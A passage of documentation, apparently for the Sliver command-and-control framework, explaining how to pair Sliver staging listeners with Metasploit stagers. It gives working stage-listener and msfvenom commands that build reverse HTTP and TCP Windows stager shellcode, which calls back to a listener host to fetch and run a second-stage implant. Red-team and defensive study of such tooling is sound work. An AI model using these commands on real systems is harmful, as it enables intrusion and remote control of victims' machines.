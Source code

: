 ### Metasploit: Bring Your Own Stager

**Using Metasploit stagers is only supported on Windows.**

#### Generating an HTTP stager
If you want to use [stagers generated by the Metasploit Framework with Sliver](https://www.rapid7.com/blog/post/2022/09/16/metasploit-weekly-wrap-up-176/) (using `msfconsole` or `msfvenom`), you will need to pass the additional `--prepend-size` flag to `stage-listener`, like this:

```
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode --prepend-size
```

This will prepend the size of the payload to the final binary sent to the stager, as required by Metasploit's `custom` payloads.

Sliver staging listeners only accept `tcp://`, `http://` and `https://` schemes for the `--url` flag. The format for this flag is `scheme://IP:PORT`. If no value is specified for `PORT`, an error will be thrown out.

Either `msfconsole` or `msfvenom` can be used directly to generate stager shellcodes or binaries with the `custom` payload type:

```
msfvenom --payload windows/x64/custom/reverse_winhttp LHOST=192.168.122.1 LPORT=1234 LURI=/hello.woff --format raw --out /tmp/stager.bin
```

**Remark**: At the moment, the `custom/reverse_http` payload is not compatible with Sliver shellcodes (the stager crashes). However, one can use the `custom/reverse_winhttp` payload instead.

Depending on the payload you choose, you can specify additional options, such as HTTP proxy settings. Use the `msfvenom` flag `--list-options` with a payload type or `show advanced` in `msfconsole`.

#### Generating a TCP stager
Use the `stage-listener` command to set up a listener that will send the binary to the stager:

```
silver > stage-listener --url tcp://192.168.122.1:1234 --profile win-shellcode --prepend-size
```

Notice that we are using the `tcp://` scheme because this is a TCP stager. The `--prepend-size` option is still necessary because we will be using Metasploit.

As above, either `msfconsole` or `msfvenom` can be used directly to generate stager shellcodes or binaries with the `custom` payload type. Here is an example using `msfvenom`:

```
# LHOST and LPORT should correspond to the --url parameter of your stage-listener command

msfvenom --payload windows/x64/custom/reverse_tcp LHOST=192.168.122.1 LPORT=1234 --format raw --out /tmp/stager.bin
```

## Custom Stagers

One thing to consider while writing or using a custom stager, especially for the HTTP protocol, is that the Sliver server will only serve stage 2 payloads on specifically defined URLs. Indeed, since the HTTP staging listener is reusing the regular HTTP listener, it follows the same [procedural HTTP protocol](/docs?name=HTTPS+C2).
